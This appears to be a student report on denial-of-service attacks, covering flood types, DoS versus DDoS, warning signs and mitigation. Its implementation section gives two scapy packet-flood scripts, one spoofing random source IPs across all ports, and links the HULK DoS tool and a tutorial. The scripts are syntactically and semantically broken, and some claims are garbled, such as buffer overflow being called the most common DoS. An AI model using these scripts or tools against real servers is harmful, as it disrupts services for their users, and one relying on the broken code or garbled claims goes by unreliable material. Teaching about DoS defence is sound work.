 # Denial-of-Service (DoS) attack

*Zhen Meng, Zhixin Han*

## Background of DoS

A Denial-of-Service (DoS) attack is a malicious, targeted attack that floods a network with false requests in order to disrupt business operations.

![alt text](what-is-ddos-botmaster.png)

## DoS Attack in Real Life

DoS attacks can cost an organization both time and money, because their resources and services are inaccessible during that time. 
Not only will you be put out of action for quite a while, but a successful DoS attack can also cause the systems to fail. 

Unlike cyberattacks that steals sensitive information or money, initial DDoS attacks are launched to make websites inaccessible to their users. DoS and DDoS attacks are also used to draw attention away so that hackers can launch secondary attacks elsewhere. [1]

A famous example of DDOS attack happened to AWS, it was hit by a large DDoS attack in February 2020. The attack lasted for three days and peaked at 2.3 terabytes per second. [Click here for more information](https://www.a10networks.com/blog/aws-hit-by-largest-reported-ddos-attack-of-2-3-tbps/)

## Types of DoS attack

Generally, DoS attack fall in two categories, some of them crash web-based services and others flood the service instead. Within those two categories, there are many different subgroups, they varies based on the methods of attackers, the equipment being targeted and so on. [2]

### Buffer Overflow attacks

This is the most common form of DoS attack. A buffer overflow type of attack can cause a machine to consume all available hard disk space, memory, or CPU time. The memory storage holds temporary data being transferred will alse be consumed.

![alt text](buffer-overflow.png)

### Flood attacks

By saturating a targeted server with an overwhelming amount of packets, a malicious actor is able to oversaturate server capacity, resulting in denial-of-service. 

- ICMP Floods

Also called smurf or ping attacks. It focus on exploiting misconfigured network devices. In these attacks, attackers send spoofed packets or the false IP addresses that pings every computer on the targeted network. The network will face a surge in traffic, the system becomes flooded with responses from the malicious packet.

- SYN Floods

This type of folld attack exploits the Transmission Control Protocol (TCP) handshake, which is used for the TCP network to create a connection with a local host/server. In a SYN flood, a connection request to a server, but the handshake will be left imcomplete. These requests keep the host in an occupied status. Legitimate users will be prevented from connecting to the network when all the ports are saturated. Below is an illustration of TCP handshake.[1]

![alt text](TCP-connection-1.png)


## DoS attack vs. DDoS attack

The primary distinction between them is where the attack originated. A DDoS attack is a coordinated attack launched from various locations by multiple systems at the same time, whereas a DoS attack is a single attack.DDoS attacks are the most powerful and difficult to detect internet attacks. The reason  is that they are introduced from multiple locations in order to hide their identities and prevent the victim from identifying the main source of the attack. As a result, distinguishing between genuine and fake network traffic is impossible.

![alt text](output-onlinepngtools.png)

## Identify DoS Attack


**Common indicators:**

- Slow network performance for common tasks 

All kinds of slow network performances for normal tasks like logging in to an account, downloading files,etc.

- Inability to access online resources

The inability to access online recources like health record and educational resources.

- An interruption or loss in connectivity

The interruption or loss in connectivity of multiple devices on the same network. [2]

## Methods to Reduce the Risk of a DoS attack

**Avoid beingpart of the attack:**

- Enroll in a DoS protection service

- Create a disaster recovery plan

**Strengthen your devices:**

- Install and maintain antivirus software

- Install a firewall

- Evaluate security settings and follow good security practices [3]

## DoS attack Implementation 

### Single IP single port

A large number of packets are sent to web server by using _single IP_ and from _single port number_. 

Using a for loop a large number of packets are sending to web server using single IP from single port number. Normally,it is a low level attack to test the web server’s behavior. [4]

```
from scapy.all import *
source_IP = input("Enter IP address of Source: ")
target_IP = input("Enter IP address of Target: ")
source_port = int(input("Enter Source Port Number:"))
i = 1

while True:
   IP1 = IP(source_IP = source_IP, destination = target_IP)
   TCP1 = TCP(srcport = source_port, dstport = 80)
   pkt = IP1 / TCP1
   send(pkt, inter = .001)
   
   print ("packet sent ", i)
      i = i + 1
```

### Multiple IP multiple port 

A large number of packets are sent to web server by using _multiple IPs_ and from _multiple ports_. 

Using while loop to creat multiple IP addresses and ports to send large numbers of packets simutaneously to attack victims’ Ip address.[4]


```
Import random
from scapy.all import *
target_IP = input("Enter IP address of Target: ")
i = 1

while True:
   a = str(random.randint(1,254))
   b = str(random.randint(1,254))
   c = str(random.randint(1,254))
   d = str(random.randint(1,254))
   dot = “.”
   Source_ip = a + dot + b + dot + c + dot + d
   
   for source_port in range(1, 65535)
      IP1 = IP(source_IP = source_IP, destination = target_IP)
      TCP1 = TCP(srcport = source_port, dstport = 80)
      pkt = IP1 / TCP1
      send(pkt,inter = .001)
      
      print ("packet sent ", i)
         i = i + 1
```

## DoS Tools and Performance


### HULK

This tool successfully avoids caching by attacking the server directly with unique packets. HULK makes each request unique, unlike many other tool that transmit packets in a predictable pattern, making the attack easier to detect and halt. This program also allows you to securely carry out the  attack while maintaining control to stop it at any point.Now we are attak an ip address, using wireshark to monitor the traffic, there are continuity of packets sending to the source IP. [5]

[Get Hulk through the Repo](https://github.com/grafov/hulk)

[Video DoS/DDoS attack tutorial](https://www.youtube.com/watch?v=fGWkhmCp_js&t=117s)

![This is an image](hulk-tool.png)

### Wireshark

![This is an image](wire-shark.jpg)


## References

[1]: WHAT ARE DENIAL-OF-SERVICE (DOS) ATTACKS? [Link](https://spanning.com/blog/denial-of-service-attacks-web-based-application-security-part-7/).

[2]: Denial-of-Service (DoS) Attacks — Web-based Application Security, Part 7 [Link](https://www.crowdstrike.com/cybersecurity-101/denial-of-service-dos-attacks/).

[3]: Understanding Denial-of-Service Attacks [Link](https://www.cisa.gov/uscert/ncas/tips/ST04-015).

[4]: DoS & DDoS attack [Link](https://www.tutorialspoint.com/python_penetration_testing/python_penetration_testing_dos_and_ddos_attack.htm).

[5]: Hulk DDoS Tool : Complete Installation & Usage with Examples [Link](https://allabouttesting.org/hulk-ddos-tool-complete-installation-usage-with-examples/).
